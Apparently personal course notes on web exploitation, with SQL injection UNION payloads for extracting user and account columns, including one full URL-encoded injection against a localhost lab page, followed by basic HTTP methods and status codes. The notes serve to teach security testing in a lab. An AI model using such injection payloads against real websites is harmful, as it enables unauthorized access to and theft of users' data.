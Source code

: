 ```

your golden statement (following the 'ile.php?selection=1' statement, or whatever the vulnerable entry is), would be the following.

	to get the user_id,name,and user name COLUMNS from the users TABLE of the siteusers SCHEMA:
	
		> UNION select user_id,name,username from siteusers.users
		
			# in this case, you are selecting 3 specified columns from the 'users' table in the 'siteusers' schema
	~	~	~	~	~	~	~	~	~	~	~	~	~	~	~
	
	to get the date, ordernumber, and account COLUMNS from the shippingdates TABLE of the siteusers SCHEMA
	
		> http://localhost:11135/pick.php?product=7%20UNION%20select%20account,date,id%20from%20siteusers.shippingdates	
			
			#you should get the idea now. format is
	
```

=====================================================================================================================================================================

- Demo Web Exploit Float IP: 10.50.34.125

# HTTP

###### Types
Two types:
1. Request 	(client)
2. Reply 	(server)

##### HTTP Methods

- GET 		:	*requesting or retrieving data*
- HEAD 
- POST 		:	*sending information i.e. login credentials*

*Example:*
GET / HTTP/1.1
- GET = HTTP Method to Request/Retrieve
- / = www.google.com/
- HTTP/1.1 = HTTP Version being used

##### HTTP Status Codes

[list of codes](https://tools.ietf.org/html/rfc2616)

- 1xx = Informational Response
- 2xx = Successful
- 3xx = Redirection
- 4xx = Client Error
- 5xx = Server Error
